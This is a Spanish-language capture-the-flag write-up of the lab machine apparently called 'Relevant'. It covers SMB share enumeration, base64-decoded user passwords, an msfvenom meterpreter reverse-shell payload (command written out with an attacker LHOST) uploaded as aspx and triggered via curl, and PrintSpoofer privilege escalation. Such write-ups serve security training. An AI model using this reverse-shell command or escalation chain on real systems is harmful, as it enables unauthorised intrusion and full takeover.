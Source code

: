 # Relevant
Lo primero que haremos es un nmap a la máquina para ver que servicios tiene abierto.
![390c04af0c457d0209cb325df1839744.png](img/390c04af0c457d0209cb325df1839744.png)

Parece que nos ha encontrado una web en el puerto 80 y asñi interensate en el puerto 445 pueder ser un SMB pero no esoty seguro aunque ese puerto se suele utilizar para SMB. 
Mientras hago un escaneo de ese puerto voy a mirar que hay en la página. 
![bcf800ba889e3a63f42e4331c8f1996d.png](img/bcf800ba889e3a63f42e4331c8f1996d.png)

Vamos a realizar un fuzzeo y mientras miramos el 445. Investigando sobre el puerto 445  (puerto de SMB) con nmap he encontrado que nmap tiene distintas funciones con SMB que podremos ejecutar: 
- Con nmap -p445 --script smb-enum-shares 10.10.108.129 enumeramos las carpetas compartidas del smb.
Podemos ver como nos han aparecido akgunas carpetas compartidas. 
![0733c7afc3bdba7cb65e3f3d8ea335ad.png](img/0733c7afc3bdba7cb65e3f3d8ea335ad.png)

- Con nmap -p445 --script smb-os-discovery 10.10.108.129 podemos ver información del SO.

Podemos ver información como SO, nombre del equipo, grupo de trabajo...
![712ae39e0742ffccaeeffce1a5788de3.png](img/712ae39e0742ffccaeeffce1a5788de3.png)

- Con nmap -p445 --script smb-security-mode 10.10.108.129 podemos ver el nivel de seguridad. 

 ![8765d2b1c96cd24cdc9171f9db31587e.png](img/8765d2b1c96cd24cdc9171f9db31587e.png)

 Lo que más podemos destacar de aquí son las carpetas compartidas. Vamos a probar a acceder a ellas con smbclient -L a ver si podemos acceder a alguna. 
 Como vemos nos salen las carpetas que nos aparecieron anteriormente.
 ![802d0005bb7c3d9266d9da5c1b2a0b3d.png](img/802d0005bb7c3d9266d9da5c1b2a0b3d.png)

 Vamos a entrar en ellas a ver si alguna contiene algo. Hemos ido provando en cada carpeta 

 ![5660a21069015966d48b514f55c80973.png](img/5660a21069015966d48b514f55c80973.png)

 Nos habia dejado entrar en IPC pero hacemos ls y no hace nada. Despues hemos entrado en nt4wrksv y al hacer ls nos aparece un fichero password.txt. 

 Al mirar dentro del fichero no nos deje ejecutar cat, por lo que tenemos que llevarnos el fichero a nuestra máquina. 
 ![9a74d681ef0a75356f524a95373b0e7d.png](img/9a74d681ef0a75356f524a95373b0e7d.png)

 Nos aparece lo siguiente, por lo que parece que esta encriptada. 
 ![ba792ee1a87f70d4cc5cd36accbcd904.png](img/ba792ee1a87f70d4cc5cd36accbcd904.png)

 Parece por el formato que es base 64 por lo que vamos a desencriptarla:
 ![06a0626375128216ad766984911cb002.png](img/06a0626375128216ad766984911cb002.png)
 
Bob - !P@$$W0rD!123

 ![ca7dce352f74fd0658a036c2ca3a2fd4.png](img/ca7dce352f74fd0658a036c2ca3a2fd4.png)
 
 Bill - Juw4nnaM4n420696969!$$$

 Parecen ser 2 usuarios y sus contraseñas, por lo que no puede servir para después. 

 El escaneo me da el mismo error todo el rato. 
 ![5c5213b70ae7fc0856a55402cd88225a.png](img/5c5213b70ae7fc0856a55402cd88225a.png)

 Investigando y haciendole consultas a chat, me ha dicho que según los datos que le he proporcionado puede haber servicios que el escaneo de nmap que he realizado no ha cogido. Por ello hemos realizado un escaneo de todos los puertos a ver si encontramos algo nuevo. 

 ![68486618044139ba26c86f527b3e3259.png](img/68486618044139ba26c86f527b3e3259.png)

 Nos aparecen unos cuantos puertos más pero nos sale unknown. Vamos a comprobar.
 El puerto 49663 parece una réplica de la pagina del puerto 80. Vamos a fuzzear a ver si encontra
 ![2250f0166a47a9db98c9619aaf06a312.png](img/2250f0166a47a9db98c9619aaf06a312.png)

Este puerto tiene algo que ver con el servidor SMB, debido a que si buscamos a través de los directorios que hemos encontrado anteriormente de SMB encontramos los mismos archivos y rutas :
![26f11151cce0482832507a394edf012d.png](img/26f11151cce0482832507a394edf012d.png)

 ***
 Vamos a intentar acceder al SO, tenemos acceso al SMB por lo que podemos intentar ejecutar de alguna forma un payload para poder acceder al sistema. 
Como vimos en clase con msfvenom podemos general payloads con shell reverse que nos ayuden a acceder a sistemas. Yo voy a utilizar el siguiente: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.21.143.62 LPORT=4321 -e x86/shikata_ga_nai -f exe -o payload.exe`. No definimos x64 debido a que lo coge por defecto. 
![f85eb382d6955f874ec6b5426e855551.png](img/f85eb382d6955f874ec6b5426e855551.png)

Metemos el payload en el SMB y nos ponemos en escucha con netcat. 

![a835fda5c0d4a98af57e9031b4fa3c66.png](img/a835fda5c0d4a98af57e9031b4fa3c66.png)

He probado payload con exe y con asp pero ninguno de los dos me ha funcionado. Buscando vi que había una extensión que era aspx que esa si que me ha funcionado. 
![c59c44608b7a576c228f7a5e57ca646e.png](img/c59c44608b7a576c228f7a5e57ca646e.png)

Para que el payload se ejecute tendremos que ejecutarlo de alguna forma o interactuar con el. Le haremos un curl siguiento la URL 
![b8695950251cba2bec49cc82078ab1a2.png](img/b8695950251cba2bec49cc82078ab1a2.png)

Y en el netcat se nos abre la cmd. Ya estamos dentro del sistema. 

![fc28bf2a9a6f345491a04c868a06d4e7.png](img/fc28bf2a9a6f345491a04c868a06d4e7.png)

Lo primero será encontrar la flag del usuario. Vemos que hay un usuario llamado Bob. 
![1172c465f51966204d6362d06ec45b2e.png](img/1172c465f51966204d6362d06ec45b2e.png)

Entramos en la carpeta y solo tiene el escritorio
![54855eb5ffa58a0929fafc7b687a40e0.png](img/54855eb5ffa58a0929fafc7b687a40e0.png)

Vamos a ver que hay dentro y encontramso un archivo user.txt
![a39255f831e2aeaf4ab4f1425c215804.png](img/a39255f831e2aeaf4ab4f1425c215804.png)

Comprobaremos el contenido de user.txt y encontramos la flag del usuario. 
![ee6f9ceba957732e0d4a0313ad341f96.png](img/ee6f9ceba957732e0d4a0313ad341f96.png)

*** 
Ahora queremos escalar privilegios, tras hacerle consultas a perplexity buscando posibles exploit con la versión del SO nos dió esta solución. 
![02c520695d3bd879a6f9bbb280eff85b.png](img/02c520695d3bd879a6f9bbb280eff85b.png)

Esto lo que nos permite es ver los permisos que tenemos en el sistema y depende de que tengamos habilitado podemos usar algún exploit. 
![1a4d180de132e4bc3bc99706f383a6ba.png](img/1a4d180de132e4bc3bc99706f383a6ba.png)

Una vez le he dado la salida nos aconseja que el privilegio para hacer la escala de privilegios es SeImpersonatePrivilege, ya que este permite a un proceso impersonar a un cliente después de la autenticación, lo que puede ser explotado para obtener privilegios de sistema.

Nos ha brindado 3 exploit que podemos utilizar:
- PrintSpoofer
- JuicyPotato
- RoguePotato

Mirando como se configuran el primero es el más sencillo de ejecutar por lo que es el que vamos a utilizar. 

Descargaremos el exploit de este repositorio
![97f75e253ab7b194400d67bb53d064bb.png](img/97f75e253ab7b194400d67bb53d064bb.png)
![ed7a56b14e6f3a220759717ef28e0f29.png](img/ed7a56b14e6f3a220759717ef28e0f29.png)

Abrimos un servidor con python 
![2961954dc9aba6df5df320e1b614f6d1.png](img/2961954dc9aba6df5df320e1b614f6d1.png)

Y con este comando que nos ha dado perplexity descargaremos el .exe de nuestro servidor. 
![c6008201e3c9dcf385d65a0b5b3a8410.png](img/c6008201e3c9dcf385d65a0b5b3a8410.png)

Lo ejecutamos con el nombre del fichero y nuestra IP
![0c2758a56acee76d4f39a5933845526c.png](img/0c2758a56acee76d4f39a5933845526c.png)

Y vemos si se ha descargado. Comprobamos que si se ha descargado. (el de 64 es un archivo vacio sin nada)
![fc1564faad78a1fca66049476d109fd9.png](img/fc1564faad78a1fca66049476d109fd9.png)

Nos dicen que para ejecutar el exploit hay que poner el siguiente comando:
![00ac69136908d69347c7560763c1dd4e.png](img/00ac69136908d69347c7560763c1dd4e.png)

Lo ejecutamos y verificamos que se nos ha escalado privilegios
![8eefa3d48ab324191aaf6b5e6b3d2c06.png](img/8eefa3d48ab324191aaf6b5e6b3d2c06.png)

Efectivamente somos el sistema y tenemos permisos de administrador
![acd3d2a635c5b4066444bfb94862a179.png](img/acd3d2a635c5b4066444bfb94862a179.png)

Vamos a buscar la flag en el directorio del administrador. Dentro del escritorio del root encontramos el archivo root.txt
![5771c53c32fe7d79bbdb50bc181bd687.png](img/5771c53c32fe7d79bbdb50bc181bd687.png)

Vemos su conteniod y encontramos la flag. 
![0a225de4dad6c652682dc2059d846ef1.png](img/0a225de4dad6c652682dc2059d846ef1.png)


